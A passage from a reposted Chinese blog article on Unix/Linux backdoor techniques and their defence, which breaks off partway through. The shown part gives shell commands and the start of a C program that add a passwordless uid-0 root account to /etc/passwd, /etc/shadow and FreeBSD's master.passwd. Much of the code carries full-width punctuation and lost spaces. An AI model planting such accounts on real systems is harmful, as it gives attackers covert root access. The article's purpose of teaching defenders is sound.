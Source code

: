 ```yaml
--- 
categories: 
  - 转载
comments: true
layout: post
published: true
status: publish
tags: 
  - linux
  - server
  - unix
  - 后门
  - 安全
  - 服务器
  - 防范
title: Unix/Linux上的后门技术和防范
type: post
---
```

Unix/Linux上的后门技术和防范

对黑客来讲，入侵一个系统只是万里长征的开始，最主要的是长期占有一个肉鸡（傀儡机）， 所以，后门技术往往非常重要。对于我们来讲，总是处于被动的地位，百密一疏，总有没有做到位的地方，谁都不能保证自己的系统是绝对安全的，所以不能避免我 们可能会被入侵。黑客入侵后肯定会留后门，当然，除了那些高手，境界非常高，入侵只是为了测试或者技术挑战，对于一般黑客来讲，入侵之后留个后门是很重要 的，我们要防范，当然就要了解常用的后门技术，下面就简单的讲将在Unix/Linux系统中比较常见的后门技术。

1.帐号后门

最普通和原始的后门技术，一般就是在系统中添加一个管理员帐户。

#echo”heiyeluren：*：0：0：：/root：/bin/sh”>；>；/etc/passwd

#echo”heiyeluren：：0：0：：0：0：：/root：/bin/sh”>；>；/etc/shadow

给系统增加一个uid和gid都为0（root）的帐号，无口令。

FreeBSD的密码是存储在/etc/master.passwd里面的，那么后面的命令就应该改成：

#echo”heiyeluren：：：：：：：：：”>；>；/etc/master.passwd

也可以使用程序来实现：

/*Addsuperuser*/

#include”stdio.h”

#definePASSWD_PATH”/etc/passwd”

#defineSHADOW_PATH”/etc/master.passwd”

main（）

{

FILE*fd；

fd=fopen（PASSWD_PATH，”a+”；

fprintf（fd，”heiyeluren：*：0：0：：/root：/bin/sh\n”；
